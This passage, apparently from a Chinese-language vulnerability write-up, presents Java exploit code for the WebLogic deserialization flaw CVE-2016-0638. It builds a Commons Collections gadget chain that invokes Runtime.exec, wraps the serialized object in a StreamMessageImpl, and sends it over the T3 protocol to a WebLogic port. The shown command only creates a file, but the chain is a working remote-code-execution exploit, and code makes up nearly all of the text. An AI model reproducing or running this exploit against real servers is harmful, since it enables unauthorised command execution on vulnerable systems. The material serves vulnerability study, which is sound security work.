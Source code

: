 首先将cc1链封装成函数getObject

```
public byte[] getObject() throws Exception `{`
    Transformer[] transformers = new Transformer[] `{`
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] `{`String.class, Class[].class `}`, new Object[] `{`"getRuntime", new Class[0] `}`),
        new InvokerTransformer("invoke", new Class[] `{`Object.class, Object[].class `}`, new Object[] `{`null, new Object[0] `}`),
        new InvokerTransformer("exec", new Class[] `{`String.class `}`, new Object[] `{`"touch /tmp/D4ck"`}`)
        `}`;
    Transformer transformerChain = new ChainedTransformer(transformers);
    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
    String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
    final Constructor&lt;?&gt; constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
    constructor.setAccessible(true);
    InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

    final Map testMap = new HashMap();

    Map evilMap = (Map) Proxy.newProxyInstance(
        testMap.getClass().getClassLoader(),
        testMap.getClass().getInterfaces(),
        secondInvocationHandler
    );
    final Constructor&lt;?&gt; ctor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
    ctor.setAccessible(true);
    final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class, evilMap);
    byte[] serializeData=serialize(handler);
    return serializeData;
`}`
```

之后在main函数中获取构造好的利用对象并进行反序列化操作，接着赋值给StreamMessageImpl类的buffer对象，代码如下。

```
public static void main(String[] args) throws Exception `{`
        byte[] payloadObject = new cve_2016_0638().getObject();
        StreamMessageImpl streamMessage = new StreamMessageImpl();
        streamMessage.setDataBuffer(payloadObject,payloadObject.length);
        byte[] payload2 = Serializables.serialize(streamMessage);
        T3ProtocolOperation.send("127.0.0.1", "7001", payload2);
    `}`
```

[![](https://p1.ssl.qhimg.com/t011d1a707f1f43ba92.png)](https://p1.ssl.qhimg.com/t011d1a707f1f43ba92.png)

